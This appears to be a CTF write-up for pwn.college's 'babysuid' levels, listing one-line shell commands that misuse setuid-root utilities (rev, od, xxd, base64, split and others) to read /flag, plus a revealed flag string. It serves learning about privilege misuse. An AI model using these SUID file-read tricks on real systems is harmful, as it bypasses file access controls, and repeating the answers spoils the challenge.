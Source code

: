 ## babysuid: Program Misuse

### 1-9

`[command]` 指题目中拥有 root 权限的程序名。

```shell
$ [command] /flag
```

### 10

```shell
$ rev /flag | rev
```

### 11

```shell
$ od -w1000 -c /flag
$ echo 'p   w   n   .   c   o   l   l   e   g   e   {   s   C   G   -   E   C   B   Z   N   9   x   _   p   W   C   f   M   j   -   T   4   i   1   L   V   D   H   .   Q   X   z   U   T   M   s   A   T   O   4   I   z   W   }' | sed 's/ //g'
```

### 12

```shell
$ hd /flag
```

### 13

```shell
$ xxd -c 100 /flag
```

### 14

```shell
$ base32 /flag | base32 -d
```

### 15

```shell
$ base64 /flag | base64 -d
```

### 16

```shell
$ split /flag
$ cat xaa
```
